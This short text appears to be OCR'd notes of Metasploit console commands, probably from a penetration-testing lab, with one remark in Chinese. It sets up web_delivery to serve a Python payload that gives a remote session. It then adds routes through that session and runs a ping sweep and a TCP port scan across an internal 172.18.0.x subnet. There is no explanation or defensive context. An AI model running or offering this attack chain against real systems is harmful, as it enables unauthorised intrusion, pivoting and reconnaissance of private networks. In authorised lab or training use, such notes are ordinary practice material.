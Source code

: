 use exploit/multi/script/web_delivery
setg lhost eth0
setg lport 8888
run
会生成python脚本！


use post/multi/manage/autoroute
set session 1
exploit


use post/multi/gather/ping_sweep
set rhosts 172.18.0.0-255
set session 1
exploit

use auxiliary/scanner/portscan/tcp
set rhosts 172.18.0.0-4
set threads 10
exploit


















